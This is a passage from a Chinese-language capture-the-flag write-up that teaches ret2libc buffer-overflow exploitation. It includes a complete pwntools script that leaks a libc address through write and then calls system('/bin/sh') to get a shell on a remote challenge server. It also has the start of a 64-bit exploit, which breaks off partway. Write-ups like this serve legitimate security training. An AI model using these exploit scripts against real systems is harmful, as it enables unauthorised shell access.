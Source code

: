 那么可以计算出libc的偏移然后知道system函数地址，接下来payload2构造就很简单了

填充（0x88+4）个字节，然后是返回地址——system函数地址，接下来是system函数返回地址（因为system执行后直接get shel所以随便填了），然后是bin/sh，好了，运行exp成功pwn，完整exp如下：

```python
from pwn import *

#p = process('./level3')
p = remote('61.147.171.105',60003)
libc = ELF("./libc_32.so.6")
elf = ELF("./level3")

libc_write = libc.symbols["write"]
libc_system = libc.symbols["system"]
libc_bin_sh = next(libc.search(b"/bin/sh\x00"))

write_plt =elf.plt["write"]
write_got =elf.got["write"]

main_add = 0x0804844B
payload1 = 'a'*(0x88+4)+p32(write_plt)+p32(main_add)+p32(1)+p32(write_got)+p32(4)

p.recvuntil(":\n")
p.sendline(payload1)

write_add =u32(p.recv()[:4])

libc_base = write_add - libc_write

payload2 = 'a'*(0x88+4) + p32(libc_base + libc_system)+p32(0)+p32(libc_base + libc_bin_sh)
p.recvuntil(":\n")
p.sendline(payload2)

p.interactive()

```

![20220727235624](https://f/PWN/20220727235624.png)

**64位实例**

还记得64和32位程序最大的区别吗——32是栈传递 64是寄存器调用

64位系统中使用寄存器传递参数（32bit是栈哦）

rdi、rsi、rdx、rcx、r8、r9(1-6个参数)

ubuntu64小心堆栈平衡！！！！！！！！！！！！！！！！！！！！！！！！！！！！

贴一个就看看就行的exp，原题。。。。。把萌新骗进来鲨呜呜呜

```python
from pwn import *
from LibcSearcher import*

context(arch="amd64",os="linux",log_level="debug")
#p = process('./checkin')
p= remote('pwn.challenge.ctf.show',28106)
libc= ELF("./libc-2.30.so")
elf= ELF("./checkin")

#ROPgadget --binary checkin | grep "pop rdi"
#0x0000000000401473 : pop rdi ; ret
add_poprdi=0x0000000000401473

puts_libc = libc.symbols['puts']
system_libc = libc.symbols['system']
```